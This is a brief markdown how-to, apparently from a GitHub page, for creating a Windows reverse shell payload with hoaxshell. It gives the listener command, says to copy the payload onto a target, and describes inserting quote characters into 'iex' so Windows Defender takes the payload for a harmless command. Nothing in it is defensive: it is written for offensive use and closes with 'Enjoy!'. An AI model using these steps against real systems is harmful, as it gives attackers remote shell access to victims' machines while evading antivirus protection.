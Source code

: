 ## Create Reverse Shell Payload Via Hoaxshell
1) `hoaxshell.py -s IP_ADD -r -H "Authorization"`
2) Copy payload from kali into target
3) Obfuscate before executing command in target windows cmd line
4) ![image](https://user-images.githubusercontent.com/55113729/214117555-0a496ab7-25f5-4d8e-861e-67cec5c1b353.png)
5) Adding `'` in between `iex` helps to trick windows defender into thinking this is a regular, safe command and NOT a payload, allowing for execution into hoaxshell rev shell
6) Enjoy!
